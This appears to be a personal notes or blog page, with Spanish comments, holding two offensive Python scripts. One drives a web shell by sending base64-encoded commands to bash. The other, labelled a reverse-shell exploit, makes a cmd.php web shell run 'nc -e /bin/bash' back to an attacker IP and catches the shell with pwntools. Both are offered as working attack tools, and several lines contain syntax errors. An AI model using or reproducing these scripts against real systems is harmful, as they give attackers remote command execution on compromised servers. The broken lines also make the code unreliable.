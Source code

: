 ```yaml
---
title: Python Scripting
published: true
---
```

* <p><font color="yellow">[<font color="red">*</font>]</font><font color="lime"> sáb 26 nov 2022</font></p>
* <p><center><font color="green">Shell Simulation, With Base64 Requests</font></center></p>

<b>

```python

	import requests 
	import time, signal, sys
	from base64 import b64encode
	def salida(sig,frame):
		print('\n saliendo\n')
		sys.exit(1)

	signal.signal(signal.SIGINT, salida)

	while True:
		command = input('\n shell : )
		command = command.encode('utf-8)
		command = b64encode(command).decode('utf-8')

		data = {
			'cmd' : 'echo %s | base64 -d | bash' % (command)
			
		}

		request = requests.get('http://localhost/shell.php', params=data, timeout=5).text

		print = ('\n', request)

```
<br>
* <p><font color="yellow">[<font color="red">*</font>]</font><font color="lime"> dom 27 nov 2022</font></p>
<br>

* <p><center><font color="green">Exploit python3 reverseShell</font></center></p>

```python

#!/usr/bin/python3

import requests
import signal
import threading
import sys
from pwn import *

def salida(sig, frame):
	print('\n\n[!] Saliendo .. \n')
	sys.exit(1)

signal.signal(signal.SIGINT, salida)
if __name__ == '__main__' : 

	def exploit():
		url = 'http://localhost/cmd.php'
		data = {
			'cmd' : 'nc -e /bin/bash 192.168.0.5 443'
		}
		requests.get(url, params=data)
	
	try:
		threading,Thread(target=exploit).start()
	except Exception as e:
		print()
		
	port= 443	
	shell = listen(port).wait_for_connection()
	shell.interactive()


```
